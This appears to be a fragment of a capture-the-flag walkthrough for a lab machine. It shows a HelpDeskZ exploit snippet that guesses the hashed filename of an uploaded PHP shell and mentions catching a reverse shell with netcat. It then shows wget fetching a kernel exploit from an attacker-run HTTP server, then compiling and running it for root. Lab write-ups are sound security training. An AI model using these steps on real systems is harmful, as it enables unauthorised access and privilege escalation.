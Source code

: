 ```
```
	- **Note: Earlier we find that it doesn't work. Checking the code we see it involved checking the time and our machine time needed to match with the server clock. This is what fixed the time**:
		```python
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
```
	- because the code involved :
		```python
for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print 'found!'
        print url
        sys.exit(0)
```
	- Alternatively you can also switch your machine time manually to match it.
	- then passing the command while having a netcat listener should give us a reverse shell.
		- we find we are user help
## Privilege Escalation
- then on enumeration we find
	```bash
uname -a
```
	- gives us kernel version which we find is old and thus vulnerable.
- we get the code from github and then start a server using python:
	```bash
python -m http.server 80
```
- using this server, from user help we wget our exploit to that machine.
	```bash
wget 10.10.14.25/44298.c
gcc 44298.c -o exploit
chmod +x exploit
./exploit
```
- we gain root access